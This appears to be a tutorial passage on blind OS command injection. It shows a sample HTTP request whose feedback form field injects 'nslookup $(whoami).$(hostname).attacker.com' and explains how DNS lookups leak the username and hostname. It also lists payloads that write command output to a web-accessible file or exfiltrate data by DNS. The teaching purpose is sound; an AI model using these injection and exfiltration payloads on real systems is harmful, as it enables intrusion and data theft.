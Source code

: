 **Pseudo burp command to showcase:**

```sh
POST /feedback HTTP/1.1
Host: vulnerable-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

email=peter@normal-user.net&subject=Awesome+site+feedback&message=Great+site!&extra=&nslookup+$(whoami).$(hostname).attacker.com&
```

#### **What Happens in the Backend?**

1.  The web application processes the email submission, assuming it executes a shell command like:

    ```bash
    mail -s "subject" -aFrom:user@domain.com feedback@vulnerable.com
    ```
2. If the application is vulnerable to **blind OS command injection**, it appends the injected command (`& nslookup $(whoami).$(hostname).attacker.com &`) to the executed shell command.
3. The `nslookup` command forces the system to perform a DNS lookup request to `attacker.com`, including:
   * `$(whoami)`: The username running the process.
   * `$(hostname)`: The system’s hostname.
4. The attacker’s DNS server logs this request, revealing the compromised system’s username and hostname.
5. Since this is a **blind** injection, the attacker doesn't see direct output on the website, but captures data passively via DNS logs.

This technique is useful when output is blocked, unlike `ping` where responses may not be visible to the attacker. You can modify this to leak environment variables or other sensitive data (`$(id)`, `$(uname -a)`, etc.).

### Other **Payloads & Separators**:

***

#### **📌 Payload Examples**

**1️⃣ Writing Output to a File**

```bash
whoami > /var/www/static/whoami.txt
```

✅ Stores the output in a web-accessible file.

**2️⃣ Exfiltrating Data via DNS**

```bash
nslookup $(whoami).attacker.com
```

✅ Leaks system info via a DNS request.
